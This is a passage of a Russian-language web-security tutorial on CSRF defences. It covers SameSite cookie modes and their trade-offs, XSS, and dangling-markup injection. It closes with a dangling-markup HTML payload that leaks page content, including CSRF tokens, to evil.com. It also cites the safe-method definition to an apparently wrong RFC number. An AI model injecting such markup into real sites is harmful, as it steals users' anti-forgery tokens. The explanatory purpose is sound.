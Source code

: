 ```Set-Cookie: __Host-session=123; path=/; Secure; HttpOnly; SameSite=Lax```

Почему бы нам просто не сказать браузеру, чтобы он прекратил делать то, чего мы не хотим?
Включение этого атрибута в файле cookie даст браузеру указание предоставить этому файлу cookie определенную защиту.

Просто добавьте атрибут SameSite=Strict/Lax.

`Set-Cookie: sess=abc123; path=/; SameSite=Strict`

При работе в строгом режиме `Strict` браузер вообще не будет отправлять файлы cookie ни по одному запросу из разных источников, поэтому CSRF полностью мертв. Единственная проблема, с которой вы можете столкнуться, заключается в том, что он также не будет отправлять файлы cookie при навигации верхнего уровня. Amazon: у них есть 2 файла cookie. Один из них — это своего рода «базовый» файл cookie, который идентифицирует вас как пользователя и позволяет вам войти в систему, но если вы хотите сделать что-то конфиденциальное, например совершить покупку или изменить что-то в своей учетной записи, вам понадобится второй файл cookie, «настоящий» файл cookie, который позволяет вам делать важные вещи. В этом случае для первого файла cookie не будет установлен атрибут SameSite, поскольку это «удобный» файл cookie, он на самом деле не позволяет вам делать что-либо конфиденциальное, и если злоумышленник может сделать с его помощью запросы из разных источников, ничего не произойдет. Однако для второго файла cookie, конфиденциального файла cookie, будет установлен атрибут SameSite, и злоумышленник не сможет злоупотреблять его полномочиями в запросах между источниками. Это идеальное решение как для пользователя, так и для безопасности.

Установка режима защиты SameSite в режим `Lax` устраняет упомянутую выше проблему в строгом режиме, когда пользователь нажимает на ссылку и не входит в систему на целевом сайте, если он уже авторизовался. В режиме Lax существует единственное исключение, разрешающее использование файлов cookie. быть прикреплен к навигации верхнего уровня, использующей безопасный метод HTTP. `«Безопасные» методы HTTP` определены в разделе `4.2.1 RFC 7321 как GET, HEAD, OPTIONS и TRACE`, и нас здесь интересует метод `GET`. Это означает, что к нашей навигации верхнего уровня на https://facebook.com, когда пользователь нажимает ссылку, теперь прикрепляются файлы cookie с пометкой SameSite, когда браузер делает запрос, сохраняя ожидаемый пользовательский опыт. Мы также по-прежнему полностью защищены от атак `CSRF` на основе `POST`. Пока мы не принимаем запросы GET вместо запросов POST, эта атака невозможна, но на это следует обратить внимание при работе в режиме Lax. Кроме того, если злоумышленник может вызвать навигацию верхнего уровня или открыть новое окно, он также может заставить браузер выдать запрос GET с прикрепленными файлами cookie. Это компромисс работы в режиме Lax: мы сохраняем пользовательский опыт без изменений, но существует небольшой риск, который можно принять в качестве оплаты.

[**Еще уязвимые моменты**](https://habr.com/ru/companies/oleg-bunin/articles/412855/)

- XSS (cross-sitescripting)

Если в вашем веб-приложении есть XSS, то это автоматически делает его уязвимым к CSRF, и от этого сложно защититься. Можно только смириться.

- Dangling markup

Допустим, в нашем приложении есть уязвимость к HTML injection, но нет XSS. Например, есть Content Security Policy (CSP), которая защищает от XSS. Но атакующий все равно может внедрять HTML теги.

Если в нашем приложении реализована защита, основанная на CSRF-токенах, атакующий может внедрить такой HTML, это не закрытые теги image или form:

```html
<img src='https://evil.com/log_csrf?html=
<form action='http://evil.com/log_csrf'><textarea> 
```
В результате часть DOM HTML страницы будет отправлена на ресурс атакующего. Высока вероятность того, что если атакующий правильно внедрит такой HTML, тогда то, что придет на сайт атакующего, будет содержать CSRF-токен.
